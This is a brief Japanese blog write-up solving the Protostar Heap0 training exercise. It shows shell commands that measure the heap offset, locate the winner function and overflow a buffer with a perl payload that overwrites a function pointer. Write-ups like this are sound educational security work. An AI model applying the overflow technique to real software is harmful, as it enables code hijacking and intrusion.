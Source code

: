 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/endless/exploit-exercises-protostar-heap0/
  - /blog/2016/01/22/exploit-exercises-protostar-heap0/
date: 2016-01-22T14:09:07+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "buffer-overflow" ]
---
```


# Exploit Exercises Protostar Heap0

いきなり難しいのでなくて、ちゃんとこのレベルから用意されてあるのはよいと思う。

## [Protostar Heap0](https://exploit-exercises.com/protostar/heap0/)

`malloc`で返されるアドレス間の距離が実行ごとに変化することはない。

``` sh
$ ./heap0 '' ''
data is at 0x9afb008, fp is at 0x9afb050
level has not been passed

$ echo $[0x9afb050 - 0x9afb008]
72

$ readelf -s heap0 | grep '\<winner\>'
    55: 08048464    20 FUNC    GLOBAL DEFAULT   14 winner

$ ./heap0 $(perl -e 'print "A"x72, "\x64\x84\x04\x08"')
data is at 0x8522008, fp is at 0x8522050
level passed
```
